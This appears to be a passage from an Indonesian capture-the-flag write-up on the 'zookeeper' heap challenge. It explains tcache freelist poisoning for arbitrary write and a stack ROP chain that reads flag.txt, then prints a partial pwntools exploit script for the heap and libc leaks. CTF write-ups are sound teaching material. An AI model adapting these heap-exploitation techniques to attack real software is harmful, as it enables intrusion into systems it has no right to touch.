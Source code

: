 <br>

Ya, harusnya sudah jelas sih cara untuk mendapatkan arbitary write. Seperti arbitrary read, kita dapat mengubah nilai dari head dari  freelist tcahce manapun, jadi tcache bin dengan ukuran 0x300 pun dapat digunakan untuk menulis kemana saja. Seperti yang sudah saya katakan sebelumnya, saya menulis ke stack untuk membuat sebuah ropchain. Menggunakan ropchain, saya membuka "flag.txt", membaca darinya, dan mencetak isi kontennya. GG!

### Exploit lengkap
Ini exploit lengkap :D

```py
from pwn import *
import codecs

libc = ELF('./libc-2.31.so')
seccomp = ELF('./libseccomp.so.2.5.1')

# p = process('./zookeeper', env={"LD_PRELOAD": libc.path + " " + seccomp.path})
p = remote("zookeeper.chal.imaginaryctf.org", 1337)

def add(idx, size, content, usecontent=True):
    p.sendlineafter("(v)iew a lion\n", "f")
    p.sendlineafter("idx:", str(idx))
    p.sendlineafter("len:", str(size))
    if(usecontent):
        p.sendlineafter("content:", content)

def lose(idx):
    p.sendlineafter("(v)iew a lion\n", "l")
    p.sendlineafter("idx:", str(idx))

def view(idx):
    p.sendlineafter("(v)iew a lion\n", "v")
    p.sendlineafter("idx:", str(idx))

# Get heap leak
add(0, 0x10, "asdf")
add(0, 0x0, "asdf", usecontent=False)
view(0)
p.recvline()
heap_leak = int(codecs.encode(p.recvline().strip()[::-1], 'hex'), 16)
print(hex(heap_leak))
heap_base = heap_leak - 0x1db0


# Free tcache_perthread_struct
add(0, 0x10, "ZAFIR_1")
lose(0)


# Get libc address leak
buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
add(1, 0x280, buf)
add(2, 0x800, "leaker")
lose(1)

buf = b""
buf += p64(0x1)
buf = buf.ljust(128, b"\x00")
buf += p64(heap_base + 0x15a0)
add(1, 0x280, buf)
```